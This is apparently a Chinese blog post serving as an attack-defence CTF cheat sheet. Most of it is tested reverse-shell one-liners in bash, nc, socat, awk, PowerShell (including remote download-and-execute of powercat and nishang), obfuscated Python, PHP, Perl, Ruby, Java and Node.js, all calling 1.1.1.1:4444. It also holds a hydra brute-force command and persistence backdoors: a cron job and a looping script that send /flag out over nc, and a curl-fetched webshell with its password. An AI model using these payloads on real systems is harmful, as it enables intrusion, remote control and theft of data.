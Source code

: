 ```yaml
---
title: AWD CheatSheet
tags: 学习笔记
abbrlink: 7923
---
```




## 攻击

### crunch + hydra

```
crunch 10 10 -t 201800%%% -o password.txt
hydra -u root -p password.txt -l 192.168.9.0/24
```

### 防御

```bash
ps -u ctf  # 显示特定用户进程

last -n 5 awk '{print $1}' # 显示最近登录的5个账号

cat /etc/passwd |awk -F ':' '{print $1}' #显示所有账户

netstat -antulp | grep EST # 查看所有链接

lsof -i:3306 # 查看端口号

tar cvf www.tar /var/www/html # 打包源码

scp /tmp ctf@192.168.1.1:/var/www/html # 下载源码

mysqldump -u root -p ctf>ctf.sql # 备份数据库

mysql -u root -p ctf< ctf.sql #恢复数据库
或
source ctf.sql 

find . -name "*.php" -perm 4777 # 查找777权限的php文件

find ./ -mtime 0 -name "*.php" # 查找24小时内修改过的php文件

rm -rf `find /var/www/html -name .*.php` # 删除目录下 .*.php的文件
    
chattr -R +i /var/www/html # 锁定文件
    
tcpdump -s 0 -w ctf.pcap port 9999 # 高权限tcpdump抓包

alias curl="echo flag{1a5d51c54515649463521}" # 别名

unalias


```

### 杀进程

```
kill [pid]
killall [进程名]
pkill [进程名]
pkill -u [用户名]
```



## 权限维持

### 反弹 shell

#### 系统自带反弹

```bash
nc -e /bin/bash 1.1.1.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 4444 >/tmp/f
bash -c 'bash -i >/dev/tcp/1.1.1.1/4444 0>&1'
zsh -c 'zmodload zsh/net/tcp && ztcp 1.1.1.1 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:4444  
awk 'BEGIN{s="/inet/tcp/0/1.1.1.1/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```

### 反弹 shell

#### powercat

```cmd
# 下载powercat
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
# 反弹shell
powercat -c 1.1.1.1 -p 4444 -e cmd
```

#### nishang

```cmd
# 下载Invoke-PowerShellTcp
IEX (**New**-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');
# 反弹shell
Invoke-PowerShellTcp -Reverse -IPAddress 1.1.1.1 -port 4444
```

#### powershell自定义函数

```cmd
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('1.1.1.1',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### python2

```cmd
#linux
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#windows
python -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('1.1.1.1', 4444)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

#### python3

*(python3的只发现在msfvenom上有meterpreter版本的,没有普通的oneliner reverse shell,因此自己写了一个)*

```cmd
python -c "(lambda __g, __y: [[[[(sock.connect(('1.1.1.1',4444)), (lambda __after: __y(lambda __this: lambda: [[[[(sock.send(m_stdout), (time.sleep(1), __this())[1])[1] for (__g['m_stdout'], __g['m_stderr']) in [(comRst.communicate())]][0] for __g['comRst'] in [(subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE))]][0] for __g['data'] in [(data.decode('utf-8'))]][0] for __g['data'] in [(sock.recv(1024))]][0] if True else __after())())(lambda: None))[1] for __g['sock'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['time'] in [(__import__('time', __g, __g))]][0])(globals(), (lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))))"
```



#### php

```shell
php -r '$sock=fsockopen("1.1.1.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### perl

```shell
perl -e 'use Socket;$i="1.1.1.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### ruby

```shell
# linux
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
# windows
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","4444");while(cmd=c.gets);IO.popen(cmd,"r")io|c.print io.readend'
```

#### java

保存到jar文件,运行

```java
public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

#### nodejs

```javascript
(function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

以上命令均测试过有效,使用请自行修改ip和port.

### 后门

#### crontab

`echo '*/1 * * * * nc -w 1 1.1.1.1 4444 < /flag' > initflag.cron` 

`crontab initflag.cron`

#### shell

`echo  'while true\ndo\nnc -w 1 1.1.1.1 4444 < /flag >&1\nsleep 1m\ndone'> web_init.sh`

`sh web_init.sh`

#### webshell

`curl http://1.1.1.1/LongLiveAlkaid.txt -o .function.inc.php`

webshell pass:
get:url?pass=LongLiveAlkaid
post:a



## 参考链接

<https://klionsec.github.io/2016/09/27/revese-shell/>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md)